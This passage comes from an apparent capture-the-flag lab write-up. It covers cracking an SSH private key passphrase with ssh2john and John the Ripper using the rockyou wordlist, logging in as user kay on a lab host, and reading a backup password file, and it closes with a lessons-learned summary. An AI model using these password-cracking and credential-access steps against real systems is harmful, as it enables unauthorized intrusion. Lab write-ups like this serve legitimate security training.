 
---

## 8) CRACKING THE KEY PASSPHRASE WITH JOHN THE RIPPER
### Goal
Extract the passphrase protecting the private key using `ssh2john` and `john` with a wordlist (lab-only and authorized practice).

### Commands & Explanations
- Convert the OpenSSH key to a John-compatible hash format:
  ```bash
  /opt/JohnTheRipper/run/ssh2john.py kay_id_rsa > forjohn.txt
  ```
  - *What `ssh2john.py` does (brief):* It converts an encrypted SSH private key into a hash format that `john` can attempt to crack. This allows `john` to brute-force or wordlist-guess the passphrase protecting the key.

- Run `john` against the generated hash using `rockyou.txt`:
  ```bash
  /opt/JohnTheRipper/run/john forjohn.txt --wordlist=/opt/rockyou.txt
  ```
  - *What this `john` command does:* `john` reads the hash in `forjohn.txt` and tries passphrases from the given wordlist (`rockyou.txt`) to decrypt the key. It reports successful cracks when it finds the correct passphrase.

**Observed result:** `john` cracked the key passphrase as `beeswax` for user `kay`'s private key.

---

## 9) ACCESS AS KAY & FINAL PASSWORD DISCOVERY
### Steps
- SSH into the target using the decrypted private key (or key + passphrase):
  ```bash
  ssh -i kay_id_rsa kay@10.10.100.180
  # when asked for passphrase, enter: beeswax
  ```
- After logging in as `kay`, inspect the home directory and discovered file `pass.bak`:
  ```bash
  ls -la
  cat pass.bak
  ```
- The `pass.bak` file contains a password (in the exercise this revealed the final credential to progress or escalate further). This completes the CTF’s intended beginner flow: initial scan → web enumeration → SMB/user discovery → SSH brute force → linpeas discovery → private key extraction & cracking → final user access and secret disclosure.

---

## 10) Self‑Assessment & Lessons Learned (brief)
- **Skills practiced:** Nmap scanning, web enumeration (gobuster), SMB enumeration (enum4linux), password-guessing (hydra), file discovery and privilege escalation (linpeas), key extraction & cracking (ssh2john + john).  
- **Good practices reinforced:** Keep detailed logs (`tee`), use readonly techniques for PoCs, document every step with timestamps and evidence, and always operate in authorized labs.  
- **Areas to improve:** Faster parsing of linpeas output, learning more robust wordlists and targeted cracking strategies, and reviewing SSH key formats and protections.

---